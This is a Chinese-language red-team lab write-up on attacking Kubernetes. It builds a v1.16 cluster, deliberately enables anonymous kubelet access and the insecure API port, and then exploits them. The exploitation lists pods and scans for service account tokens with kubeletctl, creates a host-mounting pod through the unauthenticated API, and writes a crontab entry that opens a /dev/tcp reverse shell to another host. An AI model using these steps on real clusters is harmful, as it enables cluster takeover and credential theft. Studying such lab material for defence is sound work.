# 云安全之K8s攻击实践

```plain
声明：该公众号大部分文章来自作者日常学习笔记，未经授权，严禁转载，如需转载，联系洪椒攻防实验室公众号。请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。
```

# 1.什么是K8s

       Kubernetes简称k8s，是一个开源的用于编排云平台中多个主机上的容器化的应用，目标是让部署容器化的应用能简单并且高效的使用, 提供了应用部署，规划，更新，维护的一种机制。其核心的特点就是能够自主的管理容器来保证云平台中的容器按照用户的期望状态运行着，管理员可以加载一个微型服务，让规划器来找到合适的位置，同时，Kubernetes在系统提升工具以及人性化方面，让用户能够方便的部署自己的应用。常见的k8s es集群分布见下图：



-   Master：k8s集群的控制节点，负责整个集群的决策调度，发现和响应集群的事件。Master节点可以运行在集群中的任意一个节点上，但是最好将Master节点作为一个独立节点，不在该节点上创建容器，因为如果该节点出现问题导致宕机或不可用，整个集群的管理就会失效。
    
-   Node：k8s集群的工作节点， 每个集群中至少需要一台Node节点，它负责真正的运行Pod，当某个Node节点出现问题而导致宕机时，Master会自动将该节点上的Pod调度到其他节点。Node节点可以运行在物理机上，也可以运行在虚拟机中。
    
-   Pod：在k8s集群中，一个Pod是一组共享网络和存储（可以是一个或多个）的容器。Pod中的容器都是统一进行调度，并且运行在共享上下文中。一个Pod被定义为一个逻辑的host，它包括一个或多个相对耦合的容器。
    

# 2.存在风险点

       随着越来越多企业开始上云的步伐，在攻防演练中常常碰到云相关的场景，例：公有云、私有云、混合云、虚拟化集群等。以往渗透路径「外网突破->提权->权限维持->信息收集->横向移动->循环收集信息」，直到获得重要目标系统。



# 3.模拟攻击案例

## 1.搭建K8s环境（v1.16.0）

三台centos7虚拟机分别代替master，node1， node2

```plain
master：192.168.17.133
node1：192.168.17.131
node2：192.168.17.130
```

```plain
# 修改 hostname 
hostnamectl set-hostname your-new-host-name 

# 查看修改结果 
hostnamectl status 

cat <<EOF >>/etc/hosts
192.168.17.133 master
192.168.17.131 node1
192.168.17.130 node2
EOF
#修改host

cat /etc/hosts
#确认配置
```




```plain
# 安装docker所需的工具
yum install -y yum-utils device-mapper-persistent-data lvm2
# 配置阿里云的docker源
yum-config-manager --add-repo http://mirrors.aliyun.com/docker-ce/linux/centos/docker-ce.repo
# 指定安装这个版本的docker-ce
yum install -y docker-ce-18.09.9-3.el7
# 启动docker
systemctl enable docker && systemctl start docker
```

```plain
# 关闭防火墙
systemctl disable firewalld
systemctl stop firewalld

# 关闭selinux
# 临时禁用selinux
setenforce 0
# 永久关闭 修改/etc/sysconfig/selinux文件设置
sed -i 's/SELINUX=permissive/SELINUX=disabled/' /etc/sysconfig/selinux
sed -i "s/SELINUX=enforcing/SELINUX=disabled/g" /etc/selinux/config

# 禁用交换分区
swapoff -a
# 永久禁用，打开/etc/fstab注释掉swap那一行。
sed -i 's/.*swap.*/#&/' /etc/fstab

# 修改内核参数
cat <<EOF >  /etc/sysctl.d/k8s.conf
net.bridge.bridge-nf-call-ip6tables = 1
net.bridge.bridge-nf-call-iptables = 1
EOF
sysctl --system
```




```plain
# 执行配置k8s阿里云源
cat <<EOF > /etc/yum.repos.d/kubernetes.repo
[kubernetes]
name=Kubernetes
baseurl=https://mirrors.aliyun.com/kubernetes/yum/repos/kubernetes-el7-x86_64/
enabled=1
gpgcheck=1
repo_gpgcheck=1
gpgkey=https://mirrors.aliyun.com/kubernetes/yum/doc/yum-key.gpg https://mirrors.aliyun.com/kubernetes/yum/doc/rpm-package-key.gpg
EOF

# 安装kubeadm、kubectl、kubelet
yum install -y kubectl-1.16.0-0 kubeadm-1.16.0-0 kubelet-1.16.0-0

# 启动kubelet服务
systemctl enable kubelet && systemctl start kubelet
```

```plain
# 这里需要大概两分钟等待，会卡在[preflight] You can also perform this action in beforehand using ''kubeadm config images pull
kubeadm init --image-repository registry.aliyuncs.com/google_containers --kubernetes-version v1.16.0 --apiserver-advertise-address 192.168.17.133 --pod-network-cidr=10.244.0.0/16 --token-ttl 0
#ip地址替换成master地址
```


```plain
# 上面安装完成后，k8s会提示你输入如下命令，执行
mkdir -p $HOME/.kube
sudo cp -i /etc/kubernetes/admin.conf $HOME/.kube/config
sudo chown $(id -u):$(id -g) $HOME/.kube/config
```

```plain
kubeadm token create --print-join-command
```



```plain
# 安装 calico 网络插件
# 参考文档 https://docs.projectcalico.org/v3.9/getting-started/kubernetes/yum install wget
yum install wget
wget https://kuboard.cn/install-script/calico/calico-3.9.2.yaml
export POD_SUBNET=10.244.0.0/16
sed -i "s#192\.168\.0\.0/16#${POD_SUBNET}#" calico-3.9.2.yaml
kubectl apply -f calico-3.9.2.yaml
```



## 2.直接攻击某端口导致未授权访问

      kubelet会在集群中每个节点运行，对容器进行生命周期的管理，如果kubelet配置不当，攻击者可创建恶意Pod尝试逃逸到宿主机。anonymous默认为false，修改为true，并将mode从Webhook修改为AlwaysAllow。

```plain
 vi /var/lib/kubelet/config.yaml
    anonymous:
        enabled: true
     
     
    authorization:
      mode: AlwayAllow
```



访问kubelet 10250服务，出现未授权访问。

       kubeletctl 是一个用于与kubelet API 交互的命令行工具，可以通过kubeletctl执行命令获取Node权限。从Node节点窃取高权限服务账户token，使用服务账户向API Server进行验证，从而获取集群权限。

```plain
wget https://github.com/cyberark/kubeletctl/releases/download/v1.11/kubeletctl_linux_amd64
chmod 777 kubeletctl_linux_amd64
mv ./kubeletctl_linux_amd64 kubeletctl
#列出kubelet的所有pod
./kubeletctl pods -i --server 192.168.17.132
#搜索容器里面的Service Account
./kubeletctl scan token -i --server 192.168.17.132
```





## 3.模拟通过虚拟机攻击云管理平台，利用管理平台控制所有机器

      旧版本的k8s的API Server默认会开启两个端口：8080和6443。API Server 是集群的管理入口，任何资源请求或调用都是通过kube-apiserver提供的接口进行。默认情况下，API Server提供两个端口服务，8080和6443，配置不当将出现未授权访问。

-   8080端口，默认不启动，无需认证和授权检查，一旦暴露将导致未授权访问。
    
-   6443端口，默认启动需要认证（k8s<1.16.0），如果出现配置错误，将system:anonymous用户绑定到cluster-admin用户组，将出现未授权访问。
    

```plain
vi /etc/kubernetes/manifests/kube-apiserver.yaml
    - --insecure-port=8080
    - --insecure-bind-address=0.0.0.0
#insecure-port默认值为0，将其修改为8080端口，再添加insecure-bind-address=0.0.0.0，允许远程访问本地的8080端口。
```



`systemctl restart kubelet`重启服务后访问8080端口发现未授权



       接下来进一步利用 安装Kubernetes 命令行工具 kubectl， 对 Kubernetes 集群运行命令。你可以使用 kubectl 来部署应用、监测和管理集群资源以及查看日志。https://kubernetes.io/zh-cn/docs/tasks/tools/

```plain
kubectl.exe -s 192.168.17.133:8080 get nodes #同虚机里看到的
kubectl.exe -s 192.168.17.133:8080 get pods 
kubectl -s 192.168.17.133:8080 create -f test.yaml #创建一个pod
kubectl -s 192.168.17.133:8080 --namespace=default exec -it test bash #进入一个名叫‘test’的容器
```

       未授权访问的情况下，kubectl可以使用`-s`参数指定Kubernetes API服务器地址和端口，直接执行命令创建恶意Pod，将其挂载到Master节点，从而实现对整个集群的接管。


 成功进入刚创建的docker容器rpdef


```plain
echo -e "* * * * * root bash -i >& /dev/tcp/192.168.139.128/4444 0>&1\n" >> /mnt/etc/crontab
```

进入容器弹出一个shell，在另一个虚拟机上开一个监听，成功进行容器逃逸




       检查发现反弹命令已经写进了node节点的定时任务中，成功拿下node1的权限，其他节点同理



192.168.17.131为node1地址

> 参考：
> 
> -   云原生kubernetes安全 https://blog.csdn.net/qq\_34101364/article/details/122506768
>     
> -   【云攻防系列】从攻击者视角聊聊K8S集群安全（上） https://mp.weixin.qq.com/s/yQoqozJgP8F-ad24xgzIPw
>     
> -   【云攻防系列】从攻击者视角聊聊K8S集群安全（下） https://mp.weixin.qq.com/s/QEuQa0KVwykrMzOPdgEHMQ
>